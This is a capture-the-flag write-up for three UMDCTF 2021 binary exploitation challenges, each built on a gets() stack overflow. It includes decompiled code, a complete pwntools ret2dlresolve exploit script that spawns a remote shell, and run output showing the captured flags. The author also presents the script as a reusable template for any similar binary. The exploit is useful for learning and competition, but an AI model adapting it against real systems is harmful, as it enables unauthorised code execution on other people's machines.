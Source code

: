 # UMDCTF 2021

## Jump Is Easy/Jump Not Easy/Jump Is Found

> Jumping is easy. Where do we want to jump to is the hard part.
>
> `nc chals6.umdctf.io 7001`
>
> author: WittsEnd2
>
> score: 1/10
>
> [jie](jie)
> 
> What happened? This new adventure is not as easy as the first one?
>
> `nc chals6.umdctf.io 7003`
>
> author: WittsEnd2
>
> score: 2/10
>
> [jne](jne)
> 
> We are trying to jump somewhere, but nothing is happening. Can you figure out what is going on?
>
> `nc chals6.umdctf.io 7004`
>
> author: WittsEnd2
>
> score: 3/10
>
> [jnw](jnw)

Tags: _pwn_ _x86-64_ _ret2dlresolve_ _bof_


## Summary

I'm lumping all of these together since I used the exact same code on all of them.  And I'm sure this was _not_ the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

[https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
[https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above--all that is needed for easy ret2dlresolve with `gets`.


### Decompile with Ghidra

```c
undefined8 jump(void)
{
  char local_48 [64];
  
  puts("Where do you want to go?");
  gets(local_48);
  return 0xffffffff;
}
```

Yep, `gets`.  All three of them.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./jnw')

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]

dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('chals5.umdctf.io', 7004)
else:
    p = process(binary.path)

payload  = b''
payload += 0x48 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Alright script-kiddies, take this, change the binary, change the stack frame offset (`0x48`) for the `gets` buffer, change the `remote`, and as long as no PIE and no canary, you'll pwn the box.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jie/jie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loading gadgets for '/pwd/datajerk/umdctf2021/jie/jie'
[+] Opening connection to chals5.umdctf.io on port 7001: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{Sh311c0d3_1s_The_B35T_p14c3_70_jump_70}

# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jne/jne'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/umdctf2021/jne/jne'
[+] Opening connection to chals5.umdctf.io on port 7003: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{wh323_423_WE_G01n9_n3xt?}

# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jnw/jnw'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './jnw'
[+] Opening connection to chals5.umdctf.io on port 7004: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{JuMp_1s_N0w_w0RK1nG}
```

